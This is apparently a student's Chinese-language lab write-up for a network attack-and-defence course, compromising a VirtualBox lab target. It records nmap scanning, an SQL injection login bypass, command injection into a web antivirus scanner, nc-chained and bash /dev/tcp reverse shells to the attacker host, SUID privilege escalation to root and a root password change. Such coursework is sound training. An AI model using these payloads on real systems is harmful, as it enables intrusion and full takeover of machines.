


Lab4
Network Atk&Def lab4 241840273 杨良灼
查询攻击机 IP，主机发现：靶机 IP 为 10.0.2.6.
└─$ sudo ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 10.0.2.4 netmask 255.255.255.0 broadcast 10.0.2.255
inet6 fe80::9d17:dec1:4341:a804 prefixlen 64 scopeid 0x20<link>
ether 08:00:27:3c:97:80 txqueuelen 1000 (Ethernet)
RX packets 1 bytes 590 (590.0 B)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 25 bytes 3214 (3.1 KiB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
inet 127.0.0.1 netmask 255.0.0.0
inet6 ::1 prefixlen 128 scopeid 0x10<host>
loop txqueuelen 1000 (Local Loopback)
RX packets 8 bytes 480 (480.0 B)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 8 bytes 480 (480.0 B)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
└─$ sudo nmap 10.0.2.0/24
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 07:34 EDT
Nmap scan report for bogon (10.0.2.1)
Host is up (0.00062s latency).
Not shown: 999 closed tcp ports (reset)
PORT STATE SERVICE
53/tcp open domain
MAC Address: 52:54:00:12:35:00 (QEMU virtual NIC)
Nmap scan report for 10.0.2.2
Host is up (0.0034s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT STATE SERVICE
135/tcp open msrpc
445/tcp open microsoft-ds
1053/tcp open remote-as
10000/tcp open snet-sensor-mgmt
MAC Address: 52:54:00:12:35:00 (QEMU virtual NIC)
Nmap scan report for bogon (10.0.2.3)
Host is up (0.000082s latency).
All 1000 scanned ports on bogon (10.0.2.3) are in ignored states.
Not shown: 1000 filtered tcp ports (proto-unreach)
MAC Address: 08:00:27:72:65:D7 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for bogon (10.0.2.6)
Host is up (0.00013s latency).
Not shown: 998 closed tcp ports (reset)
PORT STATE SERVICE
22/tcp open ssh
8080/tcp open http-proxy
MAC Address: 08:00:27:B6:52:04 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for b1ogon (10.0.2.4)
Host is up (0.0000080s latency).
All 1000 scanned ports on bogon (10.0.2.4) are in ignored states.
Not shown: 1000 closed tcp ports (reset)
Nmap done: 256 IP addresses (5 hosts up) scanned in 11.73 seconds
端口扫描.
└─$ sudo nmap -p22,8080 -sV 10.0.2.6
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 07:39 EDT
Nmap scan report for bogon (10.0.2.6)
Host is up (0.00095s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
8080/tcp open http Werkzeug httpd 0.14.1 (Python 2.7.15rc1)
MAC Address: 08:00:27:B6:52:04 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.07 seconds
ssh 的 22 号端口即使是暴力破解也需要用户名，而我们没有，所以尝试从 http 服务入手.
Werkzeug 是一个 Python web 工具库，通过浏览器访问之：http://10.0.2.6/8080
使用 Burp Suite 工具：
Proxy -> 网页随便输入点什么得到 password 字段 -> Intercept off/on -> Send to Intruder -> Intruder

发现双引号的特殊性，于是尝试 " or 1 = 1 # ，结果被防住了：

将 # 换为另一个注释方法 -- ，得知 " or 1 = 1 -- 可以通过：

输入 hello 得到：
----------- SCAN SUMMARY -----------
Known viruses: 6691124
Engine version: 0.100.2
Scanned directories: 0
Scanned files: 0
Infected files: 0
Data scanned: 0.00 MB
Data read: 0.00 MB (ratio 0.00:1)
Time: 19.845 sec (0 m 19 s)
尝试加语句：hello; whoami
----------- SCAN SUMMARY -----------
Known viruses: 6691124
Engine version: 0.100.2
Scanned directories: 0
Scanned files: 0
Infected files: 0
Data scanned: 0.00 MB
Data read: 0.00 MB (ratio 0.00:1)
Time: 19.684 sec (0 m 19 s)
scanner
得到了 scanner，注意因为可能没有 /dev/tcp，所以尝试 nc 串联的反弹 shell.
监听端口 1111 和 2222 分别作为输入输出，浏览器中输入：
hello | nc 10.0.2.4 1111 | /bin/bash | nc 10.0.2.4 2222
1111 端口得到，并输入 whoami：
└─$ nc -lvvp 1111
listening on [any] 1111 ...
Warning: forward host lookup failed for bogon: Unknown host
connect to [10.0.2.4] from bogon [10.0.2.6] 51660
----------- SCAN SUMMARY -----------
Known viruses: 6691124
Engine version: 0.100.2
Scanned directories: 0
Scanned files: 0
Infected files: 0
Data scanned: 0.00 MB
Data read: 0.00 MB (ratio 0.00:1)
Time: 20.593 sec (0 m 20 s)
whoami
2222 端口得到：
└─$ nc -lvvp 2222
listening on [any] 2222 ...
Warning: forward host lookup failed for bogon: Unknown host
connect to [10.0.2.4] from bogon [10.0.2.6] 52576
scanner
此时已得到其权限，接下来尝试提权.
因 /home/scanner 文件中有一个 SUID 文件 update_cloudav，执行之：（2222:）
This tool lets you update antivirus rules
Please supply command line arguments for freshclam
然后我们发现：（1111:）
ls -l
2222:
total 20
drwxrwxr-x 4 scanner scanner 4096 Oct 24 2018 cloudav_app
-rwsr-xr-x 1 root scanner 8576 Oct 24 2018 update_cloudav
-rw-rw-r-- 1 scanner scanner 393 Oct 24 2018 update_cloudav.c
这意味着我们可以通过 SUID 获取 root 权限：（1111:）
./update_cloudav "--help|whoami"
2222:
root
用它反弹 shell 一下获取 root 权限（在此之前应先监听 3433 端口）：（1111:）
./update_cloudav "--help|echo 'bash -i >& /dev/tcp/10.0.2.4/3433 0>&1'|bash"
得到：
└─$ nc -lvvp 3433
listening on [any] 3433 ...
Warning: forward host lookup failed for bogon: Unknown host
connect to [10.0.2.4] from bogon [10.0.2.6] 43734
bash: cannot set terminal process group (766): Inappropriate ioctl for device
bash: no job control in this shell
root@cloudav:~#
接下来询问用户名，修改密码：
root@cloudav:~# whoami
whoami
root
root@cloudav:~# passwd
passwd
Enter new UNIX password: s0aked1027
Retype new UNIX password: s0aked1027
passwd: password updated successfully
然后回到靶机 3，登陆之：
登陆靶机成功.